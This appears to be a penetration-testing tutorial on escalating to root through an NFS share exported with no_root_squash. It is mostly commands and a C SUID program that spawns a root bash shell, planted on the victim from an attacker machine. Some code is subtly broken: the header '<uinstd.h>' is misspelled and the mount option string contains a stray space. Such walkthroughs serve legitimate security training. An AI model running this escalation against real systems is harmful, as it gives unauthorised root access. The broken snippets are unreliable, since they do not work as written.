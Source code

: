 # Introduction
The compromised machine may be configured to allow certain directories to be mounted by other machines. You can enumerate such directories by running the following command on the victim machine:

```bash
cat /etc/exports
```

![](Resources/Images/NFS%20Root%20Squashing/Enumerate%20Mountable%20Directories.png)

You can additionally verify this from your attacker machine by running:

```bash
showmount -e <victim IP>
```

![](Resources/Images/NFS%20Root%20Squashing/Confirm%20Mountable%20Directories.png)

If there is a mountable directory which is configured as `no_root_squash`, as is the case here, then it can be used for privilege escalation.

We begin by mounting the target directory from the victim to a directory on our machine:
```bash
sudo mount -o rw, vers=3 <victim IP>:/tmp /tmp/root_squash
```

Now, if `no_root_sqaush` is configured for the mountable directory, then the root user on the attacker machine will get mirrored on the victim machine. In essence, any command run as root on the attacker machine, will also be executed as root on the victim! This can allow us to create a malicious binary in the mounted directory and set its SUID bit from the attacker machine. This action will be mirrored by the victim and we will essentially have an SUID binary on the target which is all under our control.

Let's write a simple malicious C executable:
```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0); // Set user ID to root
	setgid(0); // Set group ID to root
	system("/bin/bash -i"); // Execute bash now with elevated privileges

	return 0;
}
```

It doesn't matter if you create it on the target or the attacker machine, but you *must* compile it on the target machine in order to avoid library version mismatches:

```bash
gcc -o nfs_exploit nfs_exploit.c
```

![](Resources/Images/NFS%20Root%20Squashing/Compile%20On%20Target.png)

Next, you want to change the ownership of the compiled binary to `root` *on the attacker machine*. Afterwards, you want to set the SUID bit on the binary, once again, *from the attacker machine*:

```bash
sudo chown root:root nfs_exploit
sudo chmod +s nfs_exploit
```

![](Resources/Images/NFS%20Root%20Squashing/Change%20Ownership%20and%20Permission%20on%20the%20Attacking%20Machine.png)
![](Resources/Images/NFS%20Root%20Squashing/Ownership%20and%20Permissions%20from%20the%20Target's%20POV.png)

Finally, execute the malicious binary *on the target*:

![](Resources/Images/NFS%20Root%20Squashing/NFS%20Exploit.png)